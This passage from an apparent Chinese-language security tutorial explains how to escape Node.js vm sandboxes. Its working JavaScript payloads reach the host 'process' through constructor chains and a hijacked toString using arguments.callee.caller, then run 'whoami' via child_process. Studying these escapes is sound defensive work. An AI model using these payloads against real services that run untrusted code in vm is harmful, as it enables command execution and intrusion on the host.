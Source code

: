 则不能实现。原因是`m`,`n`是基本数据类型而不是引用数据类型，如此进行的是值传递，无法拿到沙箱外部的引用。如果将`m`,`n`更改为引用数据类型类型，则可以执行：

```js
const vm = require('vm');
const script = `(() => {
    const esc = this.m.constructor.constructor("return process")();
    return esc.mainModule.require('child_process').execSync('whoami').toString();
    })()`;
const sandbox = { m: [], n: {} };
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log(res)
```

#### 劫持toString()逃逸

更进一步地，如果考虑如下情景：

```js
const vm = require('vm');
const script = `...`;
const sandbox = Object.create(null);
const context = vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log('Hello ' + res)
```

与前面情景不同的是，`sandbox`不是一个存在的对象，而是`null`，因此`this === null`，无法从内部调用。我们考虑能否使用外部已经存在的对象。

`arguments.callee` 是 JavaScript 中一个特殊的属性，它包含对当前正在执行的函数的引用。这个属性在匿名函数中尤其有用，因为匿名函数无法通过名称引用自身。然而，`arguments.callee`已被弃用，不推荐在现代 JavaScript 中使用，但这并不妨碍我们使用它。

在`arguments`是函数内部的一个类数组对象，包含了当前函数被调用时传入的所有参数。它仅在函数内部可用，且与函数的参数列表对应。`arguments.callee`指向当前正在执行的函数本身，即函数自己。[arguments.callee - JavaScript | MDN](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Functions/arguments/callee)

如果函数 `f` 是在全局作用域内调用的，则 `f.caller` 的值为`null`；否则它就是调用 `f` 的函数。如果调用 `f` 的函数是一个严格模式函数，则 `f.caller` 的值也是 `null`。[Function.prototype.caller - JavaScript | MDN](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Function/caller)

以此我们可以得到一个调用链：`arguments.callee.caller`，其中`arguments.callee`是一个函数，通过`caller`获得这个函数的引用。这个引用是在沙箱外，因此我们可以利用前文的思路来获得构造函数。

```js
const script = `(() => {
    const a = {};
    a.toString = function(){
        const g = arguments.callee.caller;
        const f = (g.toString.constructor("return process"))();
        return f.mainModule.require('child_process').execSync('whoami').toString();
    }
    return a;
    })()`;
```

把利用代码放到 `toString`或其他会被宿主隐式调用的魔术方法中，是为了让沙箱中定义的函数在宿主触发调用时，能够看到宿主调用栈中的函数，即 `arguments.callee.caller` 指向宿主函数，从而通过调用栈上那个宿主函数的 `constructor` 拿到宿主 realm 的 `Function` 构造器，再用它在宿主 realm 执行任意字符串代码，进而访问 `process` / `require` / `child_process`。
